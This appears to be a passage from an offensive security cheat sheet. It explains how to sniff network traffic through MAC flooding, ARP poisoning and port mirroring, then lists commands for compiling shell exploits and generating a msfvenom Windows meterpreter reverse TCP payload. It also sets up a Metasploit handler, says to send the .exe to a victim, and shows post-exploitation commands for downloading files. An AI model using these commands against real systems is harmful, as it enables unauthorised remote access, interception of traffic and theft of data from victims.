 MAC Flooding - When a switch is initially turned on, it doesn’t know which devices it’s going to be supporting. A switch tracks MAC addresses in a content addressable memory (CAM) table. As it receives packets from various MAC addresses, it adds the addresses to its CAM table and associates each one with a physical port on the switch. This process allows data to be sent directly to the port where the intended recipient is located instead of sending all data across the entire network like a hub. Although one port can have multiple MAC addresses associated with it, the CAM table is only so big. As a hacker, you can use a method called MAC flooding to intentionally flood the CAM table with Ethernet frames, each originating from different MAC addresses. Once the table starts to overflow, the switch responds by broadcasting all incoming data to all ports, basically turning itself into a hub instead of a switch. Since your MAC address is now connected to one of the ports, you are able to capture all traffic as it is broadcast across the network.
<br>

ARP Poisoning - Address Resolution Protocol (ARP) maps IP addresses to MAC addresses and provides the most efficient path for data transmission. ARP broadcasts are permitted to freely roam around the network. You can use this free flow of traffic to your advantage. By sending spoofed messages onto a network, you can associate your MAC address with the IP address of another host, preferably the default gateway. As a result, the target machine will send frames to your system, thinking that you are their gateway, before you forward them on to the original destination.
<br>

Port Mirroring - Port mirroring can be challenging to set up, but is possible depending on the level of access you’ve been able to obtain to a network. The concept behind port mirroring, also known as SPAN port, is actually pretty simple. Port mirroring creates a duplicate of all network traffic on a port and sends it to another device. If all traffic from a target machine is directed through the switch to the server, you can implement port mirroring. Port mirroring ensures that any time the data comes through, it is duplicated and sent out to the attacker’s machine as well.<br>

### Compile C Script
Linux
```
> gcc -o shell-exploit shell.c 
```
Windows
```
> i686-w64-mingw32-gcc win_script.c -o win_script.exe -lws2_32
````
### msfvenom
MSvenom Basic Reverse TCP Shell
```
> msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=<port> -f exe > fileNamed.exe
```
Usage
```
msf6> use exploit/multi/handler
msf6> set payload windows/meterpreter/reverse_tcp
msf6> options
msf6> exploit
```
Go to victim computer or send to victim or pwndrop and download/run the .exe file
<br>
When shelled:
```
C:\> getuid
C:\> sysinfo
C:\> download secretFile.txt
C:\> upload secretPayload.txt
```
### Moving Files
- Samba Share (SMB)
- PwnDrop - ip_address:pwndrop
- SSH/SCP - pretty simple
- Meterpreter

